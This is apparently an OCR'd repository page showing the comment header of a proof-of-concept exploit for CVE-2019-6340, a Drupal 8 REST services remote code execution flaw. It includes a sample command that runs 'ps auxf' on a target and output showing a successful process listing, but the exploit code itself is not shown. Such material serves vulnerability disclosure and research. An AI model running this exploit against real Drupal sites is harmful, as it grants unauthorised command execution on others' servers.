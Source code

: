 ### poc

```
#!/usr/bin/env python3

# CVE-2019-6340 Drupal <= 8.6.9 REST services RCE PoC

# 2019 @leonjza

# Technical details for this exploit is available at:

# [https://www.drupal.org/sa-core-2019-003](https://www.drupal.org/sa-core-2019-003)

# [https://www.ambionics.io/blog/drupal8-rce](https://www.ambionics.io/blog/drupal8-rce)

# [https://twitter.com/jcran/status/1099206271901798400](https://twitter.com/jcran/status/1099206271901798400)

# Sample usage:

# $ python cve-2019-6340.py [http://127.0.0.1/](http://127.0.0.1/) “ps auxf”

# CVE-2019-6340 Drupal 8 REST Services Unauthenticated RCE PoC

# by @leonjza

# References:

# [https://www.drupal.org/sa-core-2019-003](https://www.drupal.org/sa-core-2019-003)

# [https://www.ambionics.io/blog/drupal8-rce](https://www.ambionics.io/blog/drupal8-rce)

# [warning] Caching heavily affects reliability of this exploit.

# Nodes are used as they are discovered, but once they are done,

# you will have to wait for cache expiry.

# Targeting [http://127.0.0.1/](http://127.0.0.1/)…

# [+] Finding a usable node id…

# [x] Node enum found a cached article at: 2, skipping

# [x] Node enum found a cached article at: 3, skipping

# [+] Using node_id 4

# [+] Target appears to be vulnerable!

# USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND

# root        49  0.0  0.0   4288   716 pts/0    Ss+  16:38   0:00 sh

# root         1  0.0  1.4 390040 30540 ?        Ss   15:20   0:00 apache2 -DFOREGROUND

# www-data    24  0.1  2.8 395652 57912 ?        S    15:20   0:08 apache2 -DFOREGROUND

# www-data    27  0.1  2.9 396152 61108 ?        S    15:20   0:08 apache2 -DFOREGROUND

# www-data    31  0.0  3.4 406304 70408 ?        S    15:22   0:04 apache2 -DFOREGROUND

# www-data    39  0.0  2.7 398472 56852 ?        S    16:14   0:02 apache2 -DFOREGROUND
```